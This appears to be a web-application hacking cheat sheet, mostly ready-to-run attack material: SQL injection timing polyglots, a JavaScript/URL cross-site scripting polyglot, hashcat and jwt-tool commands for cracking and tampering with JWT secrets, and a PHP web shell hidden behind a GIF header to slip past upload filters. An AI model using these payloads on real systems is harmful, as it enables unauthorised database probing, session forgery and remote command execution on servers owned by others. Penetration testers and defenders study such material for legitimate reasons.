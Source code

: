 ### SQLi polyglot
```
SLEEP(1) /*‘ or SLEEP(1) or ‘“ or SLEEP(1) or “*/
```
```
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),​SLEEP(1)))OR"*/
```

### JS/URL polyglot
```js
data:text/html;alert(1)/*,<svg%20onload=eval(unescape(location))><title>*/;alert(2);function%20text(){};function%20html(){}
```


-----------------------------------------------------------------------------------------------------------------

# Cookie hacking

### JWT follow the following pattern:
```java
Base64(Header).Base64(Data).Base64(Signature)
```
### JWT secret bruteforce (crack)
#### `hashcat`
```bash
hashcat -a 0 -m 16500 <YOUR-JWT> /opt/web/wordlist/jwt-secrets.txt
```
#### `jwt-tool`
```bash
jwt-tool <YOUR-JWT> -C -d /opt/web/wordlist/jwt-secrets.txt
```
### Tamper jwt token content
```bash
jwt-tool <YOUR-JWT> -S hs256 -p "secret1" -T
```
-----------------------------------------------------------------------------------------------------------------
# Bypass technics
### Bypass File Upload Filtering

`.gif`file header
```php
GIF89a;

<?php
system($_GET['cmd']);
?>
```
